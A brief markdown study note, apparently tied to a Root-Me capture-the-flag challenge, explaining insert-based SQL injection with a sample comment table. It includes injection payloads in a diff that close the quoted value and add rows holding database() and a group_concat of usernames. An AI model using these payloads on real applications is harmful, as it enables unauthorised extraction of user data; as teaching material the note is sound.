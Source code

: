 # Insert-based SQLi

[![sql_injection_insert](../../../../../_badges/rootme/web_server/sql_injection_insert.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Insert)

<div class="row row-cols-lg-2"><div>

Most SQL requests are based on `SELECT`, but we may encounter sometimes `INSERT`, `UPDATE`, and `DELETE`.

Insert can be exploited to insert records used to exfiltrate data. For instance, assume there is a SQLi in the function adding comments:

```sql!
create table comment
(
    id int auto_increment primary key,
    content text not null
);
```
</div><div>

We could extract data by escaping the quoted attribute and insert a new record with a value computed from a request.

```diff
-INSERT INTO comment(content) VALUES ('a')
+INSERT INTO comment(content) VALUES ('a'), (database())-- -'
+INSERT INTO comment(content) VALUES ('a'), ((SELECT group_concat(username) from membres))-- -'
```
</div></div>